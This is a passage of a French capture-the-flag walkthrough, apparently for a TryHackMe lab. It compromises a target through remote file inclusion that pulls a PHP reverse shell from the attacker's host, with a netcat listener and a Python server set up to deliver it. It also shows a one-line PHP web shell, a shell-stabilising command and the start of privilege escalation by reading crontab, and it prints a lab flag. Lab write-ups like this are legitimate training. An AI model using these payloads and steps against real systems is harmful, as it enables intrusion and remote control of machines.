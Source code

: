 2. On va lancer un listener sur le port définit dans le "php-reverse-shell".
``` nc -lvnp 4444```

3. Pour le télécharger sur la machine distante, on va créer un serveur python 
```python3 -m http.serveur```

4. Se rendre sur l'adresse suivante : 

http://10.10.61.62/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.94.166/php-reverse-shell.php

5. On regarde le listener et hop, une session est lancée ! 

6. Puis on cherche le mot de passe : 
```
cat /home/milesdyson/user.txt

7ce5c2109a40f958099283600a9ae807
```
Réponse 4 : ** 7ce5c2109a40f958099283600a9ae807 ** 
On récupère le fichier présent à l'[IP_VPN] sur le port 8000 (serveur python) et on fait une redirection vers le port 4444 (fichier shell.php) 

### Ou Alors 2 eme solution : 

1. On créer un WebShell dans un fichier "shell.php"
``` 
<?php
system($_REQUEST['cmd']);
?>
```
2. On l'éxécute dans l'URL 
3. On cherche pas à pas jusqu'à tomber sur le fichier user.txt

Ce qui donne le chemin suivant : http://10.10.61.62/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.94.166/shell.php&cmd=cat+/home/milesdyson/user.txt

Réponse 4 : **7ce5c2109a40f958099283600a9ae807**
 
## What is the root flag?

Commençons par stabilier le shell : 
``` python -c 'import pty; pty.spawn("/bin/bash")' ```

Ensuite, il faut escalader les privilèges. Pour cela, revoyons ce que nous avions fait dans les rooms précédentes : 
Afficher les plannificateur de tâches (Scheduler)

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.